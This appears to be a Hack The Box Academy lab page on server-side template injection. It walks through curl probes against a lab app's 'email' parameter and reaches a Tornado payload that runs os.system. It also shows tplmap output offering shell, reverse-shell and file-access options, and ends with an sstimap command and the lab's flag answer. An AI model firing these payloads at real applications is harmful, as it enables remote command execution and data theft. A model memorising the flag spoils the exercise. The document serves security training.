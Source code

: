 # SSTI Exploitation Example 2

Suppose we are tasked with pentesting yet another internet-facing application. Our focus will be on identifying if the application is vulnerable to Server-Side Template Injection.

Navigate to the end of this section and click on `Click here to spawn the target system!`, then use the provided Pwnbox or a local VM to follow along. If you browse the target, you should come across the application below.

![image](https://academy.hackthebox.com/storage/modules/145/img/tornado1.png)

If you inspect the application's traffic using Firefox's Web Developer Tools (`[Ctrl]`+`[Shift]`+`[I]`), you will notice that user input is submitted inside a parameter called `email` and through a POST request to `http://<TARGET IP>:<PORT>/jointheteam`

Let's submit mathematical expressions in curly brackets to the input field, such as the ones mentioned in the `SSTI Identification` section, starting with `${7*7}`, as PortSwigger's diagram suggests.

**cURL - Interacting with the Target**

SSTI Exploitation Example 2

```shell-session
AIceBear@htb[/htb]$ curl -X POST -d 'email=${7*7}' http://<TARGET IP>:<PORT>/jointheteam

<html>
<head>
<style>
form {
margin: 0 auto;
width: 200;
}
</style>
</head>
<body>
<h1 style="text-align: center;">~ Damn Hackers ~</h1>
<h2 style="text-align: center;">Gentlemen, we can rebuild it <br />We have the technology <br />We have the capability to make the worlds first bionic website<br />Better than it was before <br />Better, Stronger, Faster.</h2>
<h2 style="text-align: center;"><em>Great!</em></h2>
<h3 style="text-align: center;"><em>Email ${7*7} has been subscribed. You&#39;ll hear from us soon!</em></h3>
</body>
```

It doesn't look like the application evaluated the submitted expression. Let's try `{{7*7}}`

**cURL - Interacting with the Target**

SSTI Exploitation Example 2

```shell-session
AIceBear@htb[/htb]$ curl -X POST -d 'email={{7*7}}' http://<TARGET IP>:<PORT>/jointheteam

<html>
<head>
<style>
form {
margin: 0 auto;
width: 200;
}
</style>
</head>
<body>
<h1 style="text-align: center;">~ Damn Hackers ~</h1>
<h2 style="text-align: center;">Gentlemen, we can rebuild it <br />We have the technology <br />We have the capability to make the worlds first bionic website<br />Better than it was before <br />Better, Stronger, Faster.</h2>
<h2 style="text-align: center;"><em>Great!</em></h2>
<h3 style="text-align: center;"><em>Email 49 has been subscribed. You&#39;ll hear from us soon!</em></h3>
</body>
```

The application evaluated the submitted expression this time. Let's continue, as PortSwigger's diagram suggests, to identify the underlying template engine.

**cURL - Interacting with the Target**

SSTI Exploitation Example 2

```shell-session
AIceBear@htb[/htb]$ curl -X POST -d 'email={{7*'7'}}' http://<TARGET IP>:<PORT>/jointheteam

<html>
<head>
<style>
form {
margin: 0 auto;
width: 200;
}
</style>
</head>
<body>
<h1 style="text-align: center;">~ Damn Hackers ~</h1>
<h2 style="text-align: center;">Gentlemen, we can rebuild it <br />We have the technology <br />We have the capability to make the worlds first bionic website<br />Better than it was before <br />Better, Stronger, Faster.</h2>
<h2 style="text-align: center;"><em>Great!</em></h2>
<h3 style="text-align: center;"><em>Email 49 has been subscribed. You&#39;ll hear from us soon!</em></h3>
</body>
```

The application evaluated the latest expression we submitted. So, according to the diagram, we should be dealing with a Twig or Jinja2 template engine, right?

Unfortunately, this is not the case! If we submit any Twig or Jinja2-specific payload, the application returns `500: Internal Server Error`. Find some examples of this behavior below.

SSTI Exploitation Example 2

```shell-session
AIceBear@htb[/htb]$ curl -X POST -d 'email={{_self.env.display("TEST")}}' http://<TARGET IP>:<PORT>/jointheteam

<html><title>500: Internal Server Error</title><body>500: Internal Server Error</body></html>
```

SSTI Exploitation Example 2

```shell-session
AIceBear@htb[/htb]$ curl -X POST -d 'email={{config.items()}}' http://<TARGET IP>:<PORT>/jointheteam

<html><title>500: Internal Server Error</title><body>500: Internal Server Error</body></html>
```

SSTI Exploitation Example 2

```shell-session
AIceBear@htb[/htb]$ curl -X POST -d 'email={{ [].class.base.subclasses() }}' http://<TARGET IP>:<PORT>/jointheteam

<html><title>500: Internal Server Error</title><body>500: Internal Server Error</body></html>
```

The payloads we utilized (and more) can be found on [PayloadsAllTheThings - Template Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2) and [HackTricks- SSTI (Server Side Template Injection)](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

It should be straightforward now that no methodology is bulletproof. We could compile a list of template engine-specific payloads from the abovementioned resources and fuzz the application until we conclude on the template engine being used.

Eventually, when submitting [Tornado](https://www.tornadoweb.org/en/stable/guide/templates.html)-specific payloads, we will come across the below.

SSTI Exploitation Example 2

```shell-session
AIceBear@htb[/htb]$ curl -X POST -d "email={% raw %}
{% import os %}
{% endraw %}{{os.system('whoami')}}" http://<TARGET IP>:<PORT>/jointheteam

<html>
<head>
<style>
form {
margin: 0 auto;
width: 200;
}
</style>
</head>
<body>
<h1 style="text-align: center;">~ Damn Hackers ~</h1>
<h2 style="text-align: center;">Gentlemen, we can rebuild it <br />We have the technology <br />We have the capability to make the worlds first bionic website<br />Better than it was before <br />Better, Stronger, Faster.</h2>
<h2 style="text-align: center;"><em>Great!</em></h2>
<h3 style="text-align: center;"><em>Email 0 has been subscribed. You&#39;ll hear from us soon!</em></h3>
</body>
```

It seems we finally got it! Tornado is being utilized on the backend.

As already mentioned in previous sections, `tplmap` can be used to automate both the template engine identification and exploitation process.

**tplmap.py**

SSTI Exploitation Example 2

```shell-session
AIceBear@htb[/htb]$ ./tplmap.py -u 'http://<TARGET IP>:<PORT>/jointheteam' -d email=blah

    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Testing if POST parameter 'email' is injectable
[+] Smarty plugin is testing rendering with tag '*'
[+] Smarty plugin is testing blind injection
[+] Mako plugin is testing rendering with tag '${*}'
[+] Mako plugin is testing blind injection
[+] Python plugin is testing rendering with tag 'str(*)'
[+] Python plugin is testing blind injection
[+] Tornado plugin is testing rendering with tag '{{*}}'
[+] Tornado plugin has confirmed injection with tag '{{*}}'
[+] Tplmap identified the following injection point:

  POST parameter: email
  Engine: Tornado
  Injection: {{*}}
  Context: text
  OS: posix-linux
  Technique: render
  Capabilities:

   Shell command execution: ok
   Bind and reverse shell: ok
   File write: ok
   File read: ok
   Code evaluation: ok, python code

[+] Rerun tplmap providing one of the following options:

    --os-shell				Run shell on the target
    --os-cmd				Execute shell commands
    --bind-shell PORT			Connect to a shell bind to a target port
    --reverse-shell HOST PORT	Send a shell back to the attacker's port
    --upload LOCAL REMOTE	Upload files to the server
    --download REMOTE LOCAL	Download remote files
```

Now, proceed to this section's exercise and complete the objective either by crafting the payload yourself or through a shell obtained with the help of `tplmap`.

**Questions**

Use what you learned in this section to read the contents of flag.txt, which resides in the current working directory. Answer format: HTB{String}

<pre class="language-bash"><code class="lang-bash"><strong>#1
</strong><strong>./sstimap.py -u "http://94.237.57.59:33792/" -f -s
</strong>cat flag.txt
HTB{6M1ll1onD0ll4rD3v3l0p3r}
</code></pre>
